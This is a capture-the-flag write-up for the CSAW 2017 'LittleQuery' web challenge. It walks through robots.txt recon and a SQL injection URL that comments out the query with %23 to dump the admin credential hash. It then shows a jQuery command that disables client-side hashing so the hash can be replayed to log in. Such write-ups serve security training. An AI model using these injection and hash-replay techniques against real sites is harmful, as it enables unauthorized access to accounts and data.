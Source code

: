 # CSAWCTF_2017: LittleQuery

**Category:** Web
**Points:** 200
**Description:**

>I've got a new website for BIG DATA analytics!
http://littlequery.chal.csaw.io

## Write-up
This challenge is a straightforward database injection attack challenge, with a bit of recon mixed in. This challenge starts with seeing the `robots.txt` page.

    User-agent: *
    Disallow: /api

From there, we discover a hidden part of the site, `/api`!

    Index of /api

    [ICO]   Name    Last modified   Size    Description
    [PARENTDIR] Parent Directory        -    
    [   ]   db_explore.php  2017-09-13 10:36    1.9K     
    Apache/2.4.18 (Ubuntu) Server at littlequery.chal.csaw.io Port 80

This leads us to `db_explore.php`. Upon further testing, there were two factors towards solving the challenge. First, is the mode `schema` and second, the mode `preview`. Upon further testing, we end up with 3 things.

    http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user

    http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=users

In this case, `%23` stands for `#`, to comment out the rest of the SQL statement. Now, we have the user credentials.

    admin:5896e92d38ee883cc09ad6f88df4934f6b074cf8

Since the password is hashed clientside before sending to server, we can simply prevent the hashing from taking place and sending the hash, using this JS command!

    $(".form-signin").off()

Therefore, the flag is `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`.
